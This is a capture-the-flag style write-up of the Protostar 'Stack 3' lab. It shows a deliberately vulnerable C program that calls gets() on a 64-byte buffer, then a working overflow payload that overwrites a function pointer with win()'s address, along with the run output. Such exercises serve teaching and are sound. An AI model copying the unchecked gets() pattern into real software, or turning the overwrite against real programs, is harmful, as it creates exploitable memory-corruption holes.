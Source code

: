 # Stack 3

Stack 3 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

We have to find the address of the win function in the text segment. To do this we use objdump.

```shell
objdump -S stack3 | grep win
```
Output:
```shell
08048424 <win>:
```

Now we need to write the address 0x08048424 into the function pointer.

```python
print( "A"*64+"\x24\x84\x04\x08")
```

Finally, to feed the exploit to the program we run:
```shell
python stack3.py | /opt/protostar/bin/stack3
```
And we get an output of
```shell
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
